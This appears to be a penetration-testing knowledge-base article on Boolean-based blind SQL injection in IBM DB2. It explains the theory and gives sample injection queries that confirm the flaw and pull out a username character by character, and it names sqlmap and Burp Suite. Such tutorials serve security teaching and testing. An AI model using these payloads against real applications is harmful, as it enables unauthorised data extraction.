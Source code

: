```yaml
---
title: Boolean-based Blind SQL Injection in IBM DB2
description: Explore Boolean-based Blind SQL Injection techniques to extract data
  using conditional logic in IBM DB2 databases.
keywords:
- Boolean-based blind
- SQL injection
- IBM DB2
- conditional logic
- data extraction
- boolean logic
- vulnerability
- sensitive data
- application behavior
---
```


# Boolean-based Blind

## Context

This article explores the technique of exploiting Boolean-based Blind SQL Injection within IBM DB2 databases. By leveraging SQL's Boolean logic, it is possible to extract data from a database one bit at a time, based on the application's response to true or false conditions. This method is particularly useful when the application does not return any output directly, making traditional SQL injection techniques ineffective. To gain the most from this article, readers should have a background in SQL syntax, understand Boolean logic, be familiar with HTTP requests, and have prior knowledge of DB2 Blind SQL Injection.

## Theory

### Boolean Logic in SQL

Boolean logic in SQL uses conditional statements to manipulate the execution of SQL queries. When a query is executed, Boolean conditions evaluate to either true or false, which can affect the query's outcome. In the context of SQL injection, an attacker can input these conditions to verify if certain information exists or to extract specific data by interpreting the true/false evaluation.

### Exploiting Conditional Responses

Boolean-based Blind SQL Injection exploits conditional responses of the application. A successful attack begins with injecting a condition that is always true (such as `1=1`) and observing the application's behavior. If the application responds differently when changing the injected condition from true to false, it indicates a potential vulnerability. By carefully crafting conditions that evaluate data properties, attackers can extract sensitive information based on patterns in the application’s responses.

### Data Extraction through Boolean Conditions

Data extraction through Boolean conditions involves using successive queries to infer information one piece at a time. Attackers can determine aspects such as the length of data fields or specific values by injecting queries that evaluate the truth of various conditions. Changes in application behavior indicate correctness of these guesses, allowing attackers to piece together sensitive data by employing logical testing across multiple injections.

## Practice

### Boolean-based Blind SQL Injection

Boolean-based Blind SQL Injection can be manually executed by crafting SQL queries that infer data from true/false conditions. Here is how to perform this technique effectively:

- **Verify Vulnerability with True Condition**
  ```bash
  SELECT * FROM users WHERE id = 1 AND 1=1 -- 
  ```
  Execute this query to test if a known true condition results in a typical application response, confirming that the input is being evaluated.

- **Confirm Vulnerability with False Condition**
  ```bash
  SELECT * FROM users WHERE id = 1 AND 1=2 -- 
  ```
  This basic false condition should lead to a different response. If the application's behavior changes, further exploitation may be possible.

- **Extract Data by Checking Length of Username**
  ```bash
  SELECT * FROM users WHERE id = 1 AND (SELECT LENGTH(username) FROM users WHERE id=1)=5 -- 
  ```
  Use this query to determine if the username associated with `id=1` consists of 5 characters, based on the application's response.

- **Identify Specific Character of Username**
  - **Check First Character:**
    ```bash
    SELECT * FROM users WHERE id = 1 AND (SELECT ASCII(SUBSTR(username,1,1)) FROM users WHERE id=1)=65 -- 
    ```
    This query verifies if the first character is 'A' (ASCII value 65).

  - **Check Second Character:**
    ```bash
    SELECT * FROM users WHERE id = 1 AND (SELECT ASCII(SUBSTR(username,2,1)) FROM users WHERE id=1)=66 -- 
    ```
    This query checks if the second character is 'B' (ASCII value 66).

Through these queries, sensitive data is extracted by deducing values based on true/false evaluations.

## Tools

- **sqlmap**
- **Burp Suite** 

These tools can automate finding and exploiting Boolean-based Blind SQL Injections, quickly assessing vulnerabilities and extracting data efficiently.